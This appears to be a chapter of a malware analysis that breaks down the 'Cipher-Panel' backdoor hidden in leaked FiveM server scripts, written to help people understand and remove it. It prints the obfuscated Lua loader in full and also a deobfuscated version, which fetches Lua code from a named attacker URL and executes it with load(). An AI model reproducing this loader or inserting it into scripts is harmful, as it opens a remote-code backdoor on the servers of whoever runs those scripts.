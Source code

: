 ## Chapter 1 (Original Entry)
This chapter contains the breakdown of the original entry code used by Cipher-Panel.

### Introduction
The original entry code is a very simple snippet of code that can be inserted into any FiveM script that is used as a payload to download the malicious code.

The normal method for the sharing of this is through leaked scripts uploaded by users that only intend to gain access and extort people for money.

#### Original Code
```lua
    local Enchanced_Tabs = {
        Ench, Support, Host, Pairs,
        Realease, Callbacks, Source,
        Hosting, Event, PerformHttpRequest,
        assert, server, load, Spawn, materials
    }

    local random_char = {
        '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
        '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69',
        '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
    }

    function str_utf8()
        _empt = ''
        for id,it in pairs(random_char) do
            _empt = _empt..it
        end
        return (_empt:gsub('..', function (cc)
            return string.char(tonumber(cc, 16))
            
        end))
    end

    Enchanced_Tabs[10](str_utf8(), function (e, d)
        local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
        if (d == nil) then return end
        s()
    end)
```

Just from looking at this code, we can gather a fair amount of information.
  - The code is designed to look clean by using function names that aren't associated with malicious code such as **random_char**.
  - They are hiding function names encoded with UTF-8 in an array that they convert rather than keeping function names in all of the malicious functions.

This being said we have to map the values to better understand the code. This is done by turning `Enchanced_Tabs` into the corresponding index in the UTF-8 encoded array. We will also take this chance to normalize the field names and remove the junk code used to obscure the real functionality.

#### UTF-8 Array Reversal
```
Input: '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72', '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69', '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
Encoded: \x68\x74\x74\x70\x73\x3a\x2f\x2f\x63\x69\x70\x68\x65\x72\x2d\x70\x61\x6e\x65\x6c\x2e\x6d\x65\x2f\x5f\x69\x2f\x69\x3f\x74\x6f\x3d\x6c\x36\x54\x72\x32
Plain Text: https://cipher-panel.me/_i/i?to=l6Tr2
```

#### Function Name Array Mapping
```diff
Enchanced_Tabs[1] = Ench; (Junk Code)
Enchanced_Tabs[2] = Support; (Junk Code)
Enchanced_Tabs[3] = Host; (Junk Code)
Enchanced_Tabs[4] = Pairs; (Junk Code)
Enchanced_Tabs[5] = Realease; (Junk Code)
Enchanced_Tabs[6] = Callbacks; (Junk Code)
Enchanced_Tabs[7] = Source; (Junk Code)
Enchanced_Tabs[8] = Hosting; (Junk Code)
Enchanced_Tabs[9] = Event; (Junk Code)
+ Enchanced_Tabs[10] = PerformHttpRequest;
+ Enchanced_Tabs[11] = assert;
Enchanced_Tabs[12] = server; (Junk Code)
+ Enchanced_Tabs[13] = load;
Enchanced_Tabs[14] = Spawn; (Junk Code)
Enchanced_Tabs[15] = materials; (Junk Code)
```

The only used functions are highlighted, the rest are simply random functions designed to hide the used functions.

#### Final Mapped Code
```lua
    PerformHttpRequest("https://cipher-panel.me/_i/i?to=l6Tr2", function (errorCode, responseBody)
        local payload = assert(load(responseBody))
        if (responseBody == nil) then return end
        payload()
    end)
```

The final mapped code continuously makes an HTTP request to an endpoint that is provided to paid users by Cipher-Panel. This endpoint can't be accessed normally as they have Cloudflare page rules set up to only accept the User-Agent that FiveM makes HTTP requests with (FXServer/PerformHttpRequest). The responseBody field returns the body from the endpoint that contains lua code for the next step of this fuck fest.

[Chapter 2 (Infection)](https://github.com/ericstolly/cipher/blob/main/chapters/chapter-2-infection.md)

